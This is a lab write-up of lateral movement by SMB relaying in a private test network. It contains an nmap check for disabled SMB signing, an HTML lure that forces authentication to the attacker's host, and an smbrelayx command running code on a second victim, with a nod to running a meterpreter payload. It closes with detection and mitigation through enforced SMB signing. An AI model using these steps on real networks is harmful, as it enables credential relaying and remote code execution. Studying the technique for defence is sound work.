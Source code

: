 # Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled. 

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

If SMB signing is disabled, howeverm packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

{% hint style="warning" %}
Credentials from Victim1 must be for a local admin on Victim2 or be a member of Administrators/Domain Administrators group for this attack to work successfully.
{% endhint %}

Below is a simplified process of how this attack works:

`10.0.0.2` -authenticates to-&gt; `10.0.0.5` -relays to-&gt; `10.0.0.6` executes code with victim1\(10.0.0.2\) credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-31-10-45-27.png)

Since we know that victim2@10.0.0.6 has SMB signing disabled and is vulnerable to SMB relaying attack, let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code-tabs %}
{% code-tabs-item title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% hint style="info" %}
Any other forced authentication method will also work - follow below link for a list of techniques.
{% endhint %}

{% page-ref page="../initial-access/t1187-forced-authentication.md" %}

...at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% hint style="info" %}
Note that smbrelayx could be used with a `-e` switch that allows attacker to execute their payload file - say, a meterpreter executable.
{% endhint %}

Below is a gif showing the technique in action - on the left - `victim1@10.0.0.2` opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system \(on the right\). Once the authentication attempt comes in, it gets relayed to `victim2@10.0.0.6` and ipconfig gets executed:

![](../../.gitbook/assets/peek-2018-12-30-22-31.gif)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](../../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

## Observations & Mitigation

Smbrelayx.py leaves a pretty good footprint for defenders in Microsoft-Windows-Sysmon/Operational - the parent image is services.exe and the commandline has juicy details - note though that the commandline arguments are subject to forgery:

![](../../.gitbook/assets/screenshot-from-2018-12-31-13-29-13.png)

In order to mitigate this type of attack, the best way to do it is by implementing GPOs if possible by setting the policy **Microsoft network client: Digitally sign communications \(always\)** to `Enabled`:

![](../../.gitbook/assets/screenshot-from-2018-12-31-10-36-45.png)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED` errors message and lateral movement is prevented:

![](../../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

The same nmap scan we did earlier now also shows that the `message signing is required`:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-31-11-05-59.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}




